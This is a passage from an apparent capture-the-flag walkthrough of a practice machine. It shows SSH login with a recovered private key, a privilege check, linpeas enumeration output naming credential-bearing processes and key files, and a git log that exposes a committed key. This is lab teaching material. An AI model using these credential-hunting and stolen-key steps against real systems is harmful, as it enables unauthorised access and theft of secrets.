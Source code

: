 We now have shell

![image.png]({{ site.baseurl }}/assets/devoops/image%204.png)

Let’s get a ssh shell with the private key instead:

```bash
chmod 600 roosa.key

ssh -i roosa.key roosa@10.10.10.91
```

Let’s check our privileges:

```bash
id 

uid=1002(roosa) gid=1002(roosa) groups=1002(roosa),4(adm),27(sudo)
```

Let’s download [linpeas.sh](http://linpeas.sh) and execute it; interesting findings:

```bash
╔══════════╣ Processes with credentials in memory (root req)
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#credentials-from-process-memory
gdm-password Not Found
gnome-keyring-daemon Not Found                                    
lightdm process found (dump creds from memory as root)
vsftpd Not Found                                                  
apache2 Not Found                                                 
sshd: process found (dump creds from memory as root)  
                                                     
                                                     
══╣ Possible private SSH keys were found!
/etc/ImageMagick-6/mime.xml
/home/roosa/deploy/resources/integration/authcredentials.key
/home/roosa/.ssh/id_rsa
/home/roosa/work/blogfeed/resources/integration/authcredentials.key
	
```

We see that roosa has a .git dir in the work dir, looking in the logs/HEAD file, we see this commit:

```bash
commit: add key for feed integration from tnerprise backend
d387abf63e05c9628a59195cec9311751bdb283f 33e87c312c08735a02fa9c796021a4a3023129ad Roosa Hakkerson <roosa@solita.fi> 1521466386 -0400commit: reverted accidental commit with proper key
33e87c312c08735a02fa9c796021a4a3023129ad dfebfdfd9146c98432d19e3f7d83cc5f3adbfe94 Roosa Hakkerson <roosa@solita.fi> 1521549476 -0400commit: Gunicorn startup script
dfebfdfd9146c98432d19e3f7d83cc5f3adbfe94 ca3e768f2434511e75bd5137593895bd38e1b1c2 Roosa Hakkerson <roosa@solita.fi> 1521549501 -0400commit: Blogfeed app, initial version.
ca3e768f2434511e75bd5137593895bd38e1b1c2 cec54d8cb6117fd7f164db142f0348a74d3e9a70 Roosa Hakkerson <roosa@solita.fi> 1521572889 -0400commit: Debug support added to make development more agile.
cec54d8cb6117fd7f164db142f0348a74d3e9a70 26ae6c8668995b2f09bf9e2809c36b156207bfa8 Roosa Hakkerson <roosa@solita.fi> 1521574620 -0400commit: Set PIN to make debugging faster as it will no longer change every time the application code is changed. Remember to remove before production use.
26ae6c8668995b2f09bf9e2809c36b156207bfa8 7ff507d029021b0915235ff91e6a74ba33009c6d Roosa Hakkerson <roosa@solita.fi> 1522059235 -0400commit: Use Base64 for pickle feed loading
7ff507d029021b0915235ff91e6a74ba33009c6d 2225baa807443f8d6fdcc3fe0d83dd7fb74b31f7 Roosa Hakkerson <roosa@solita.fi> 1758286251 -0400commit: testing

```
